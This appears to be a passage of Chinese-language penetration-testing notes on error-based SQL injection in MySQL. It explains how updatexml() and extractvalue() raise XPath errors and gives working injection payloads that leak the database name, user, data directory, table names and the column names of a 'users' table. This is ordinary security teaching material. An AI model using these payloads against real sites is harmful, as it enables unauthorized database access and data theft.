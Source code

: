 #### （3）报错注入函数

> ### updatexml（）
>
> ### extractvalue（）
>
> ### 当这两个函数在执行时，如果出现xml文档路径错误就会产生报错
>
> 
>
> #### updatexml():是mysql对xml文档数据进行查询和修改的xpath函数
>
> > ***\*select \* from test where ide = 1 and (updatexml(1,0x7e,3));\**** ***\*由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。\****
> >
> > **爆出数据库及相关信息****
> >
> > ```sql
> > 1' 
> > and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)
> > ```
> >
> > **爆当前数据库表信息**
> >
> > ```sql
> > 1' 
> > and updatexml(1,concat(0x7e,(select group_concat(table_name) 
> > from information_schema.tables 
> > where table_schema=database()),0x7e),1)
> > ```
>
> #### extractvalue()：是mysql对xml文档数据进行查询的xpath函数
>
> > ***\*select user,password from users where user_id=1 and (extractvalue(1,0x7e));\****
> >
> > ***\*由于0x7e就是~不属于xpath语法格式，因此报出xpath语法错误。\****
> >
> > **爆出数据库及相关信息**
> >
> > ```sql
> > 1' 
> > and extractvalue(1,concat(0x7e,user(),0x7e,database())) 
> > ```
> >
> >  
> >
> > **爆当前数据库表信息**
> >
> > ```sql
> > 1' 
> > and extractvalue(1,concat(0x7e,(select group_concat(table_name) 
> > from information_schema.tables 
> > where table_schema=database())))
> > ```
> >
> > **爆用户名**
> >
> > ```sql
> > 1' 
> > and extractvalue(1,concat(0x7e,(select group_concat(column_name) 
> > from information_schema.columns 
> > where table_schema=database() 
> > and table_name='users'))) 
> > ```